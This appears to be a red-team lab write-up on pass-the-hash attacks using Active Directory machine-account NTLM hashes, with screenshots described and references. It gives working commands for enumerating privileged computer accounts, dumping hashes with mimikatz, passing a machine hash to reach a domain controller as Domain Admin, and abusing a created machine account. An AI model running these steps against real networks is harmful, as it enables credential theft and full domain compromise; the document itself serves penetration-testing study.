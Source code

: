 ```yaml
---
layout: post
title: "2024-06-18-pass the hash with machine accounts"
date: 2024-06-18
categories: active-directory-kerberos-abuse
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /pass-the-hash-with-machine-accounts/
---
```


# Pass the Hash with Machine$ Accounts

This lab looks at leveraging machine account NTLM password hashes or more specifically - how they can be used in pass the hash attacks to gain additional privileges, depending on which groups the machine is a member of (ideally administrators/domain administrators).

This labs is based on an assumption that you have gained local administrator privileges on a workstation (machine), let's call it `WS01$`. Since you have done your AD enumeration, you notice that the WS01$ is a member of `Domain Admins` group - congratulations, you are one step away from escalating from local admin to Domain Admin and a full domain compromise.

## Execution

Finding domain computers that are members of interesting groups:

{% code title="attacker@victim" %}
```csharp
Get-ADComputer -Filter * -Properties MemberOf | ? {$_.MemberOf}
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 16-03-19.png>)

Of course, the same can be observed by simply checking the Domain Admins net group:

{% code title="attacker@victim" %}
```csharp
net group "domain admins" /domain
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 17-22-59.png>)

or administrators group (not applicable to our lab, but showing as a sidenote):

{% code title="attacker@victim" %}
```csharp
net localgroup administrators /domain
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 17-24-07.png>)

In AD, the highlighted part can be seen here:

![](<../../.gitbook/assets/Screenshot from 2018-12-29 16-36-17.png>)

Extracting the machine `WS01$` NTLM hash after the admin privileges were gained on the system:

{% code title="attacker@victim" %}
```csharp
sekurlsa::logonPasswords
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 15-29-17.png>)

Let's check that our current compromised user `ws01\mantvydas` (local admin on ws01) cannot access the domain controller DC01 just yet:

![](<../../.gitbook/assets/Screenshot from 2018-12-29 15-47-10.png>)

Since WS01$ machine is a member of `Domain Admins` and we have extracted the machine's hash with mimikatz, we can use mimikatz to pass that hash and effectively elevate our access to Domain Admin:

{% code title="attacker@victim" %}
```csharp
sekurlsa::pth /user:ws01$ /domain:offense.local /ntlm:ab53503b0f35c9883ff89b75527d5861
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-12-29 15-52-35.png>)

Below shows how the machine's hash is passed which results in an elevated cmd.exe prompt. Using the elevated prompt enables us to access the domain controller as shown with `dir \\dc01\c$`:

![](<../../.gitbook/assets/Peek 2018-12-29 15-49.gif>)

## Remember

It's worth re-emphasizing that computer/machine accounts are essentially the same as user accounts and can be as dangerous if misconfigured.

Let's create a new machine account with powermad like so:

```csharp
New-MachineAccount -MachineAccount testmachine
```

![](<../../.gitbook/assets/image (162).png>)

Now, let's say someone added the testmachine$ account into Domain Admins:

```csharp
Get-NetGroupMember "domain admins" | select membern*
```

![](<../../.gitbook/assets/image (164).png>)

...if we somehow get hold of the testmachine$ password, we can escalate to a DA. We can check this by opening a new console and logging in as testmachine$ with `/netonly` flag. Note how initially the user spotless cannot list files on the DC01, but once `runas /user:testmachine$ /netonly powershell` is run and the password is provided, DC01 is no longer complaining and allows spotless listing its file system:

![](<../../.gitbook/assets/image (163).png>)

## References

{% embed url="https://blog.secarma.co.uk/labs/using-machine-account-passwords-during-an-engagement" %}

{% embed url="https://www.c0d3xpl0it.com/2018/05/machine-accounts-in-pentest-engagement.html?m=1" %}
@spotheplanet
